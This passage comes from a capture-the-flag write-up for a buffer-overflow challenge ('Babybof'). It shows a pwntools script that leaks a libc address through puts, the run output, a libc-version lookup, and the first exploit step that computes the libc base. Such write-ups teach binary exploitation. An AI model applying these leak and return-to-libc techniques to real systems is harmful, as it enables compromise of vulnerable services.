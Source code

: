 ```python3
received = received.strip()
print(received)
leak = u64(received.ljust(8, b"\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

p.close()
```

Let's run the script:
```console
$ python3 leak.py
[+] Opening connection to chals20.cybercastors.com on port 14425: Done
[*] 'bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loaded 14 cached gadgets for './bof'
[*] puts@plt: 0x400590
[*] __libc_start_main: 0x600ff0
[*] pop rdi gadget: 0x4007f3
b'Welcome to the cybercastors Babybof\n'
b'Say your name: '
b'\xc0?m \xd7\x7f'
[*] Leaked libc address,  __libc_start_main: 0x7fd7206d3fc0
[*] Closed connection to chals20.cybercastors.com port 14425
```
We see that for this particular run, the address of `__libc_start_main` was 0x7fd7206d3fc0.  
We need to find out what version of libc is running on the server since different versions have different offsets between the base and functions.  

Luckily there's a tool that finds the right libc version for you based on the address of a libc function.

Download the database and tools [here](https://github.com/niklasb/libc-database) and then run the following:
```console
$ ./find __libc_start_main 0x7fd7206d3fc0 
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.31-0ubuntu9_amd64.deb (id libc6_2.31-0ubuntu9_amd64)
```
This shows us that the server was using the libc6\_2.31-0ubuntu9\_amd64 version. We can use `download libc6_2.31-0ubuntu9_amd64` to download that libc version.  

Note: There is also an online libc database at https://libc.blukat.me/, but it only works sometimes since its database probably isn't as comphrehensive.

### Exploit
We can use the pwntools python library to find libc offsets.  

This calculates the base libc address by subtracting the offset from \_\_libc\_start\_main
```python3
libc.address = leak - libc.sym["__libc_start_main"]
```
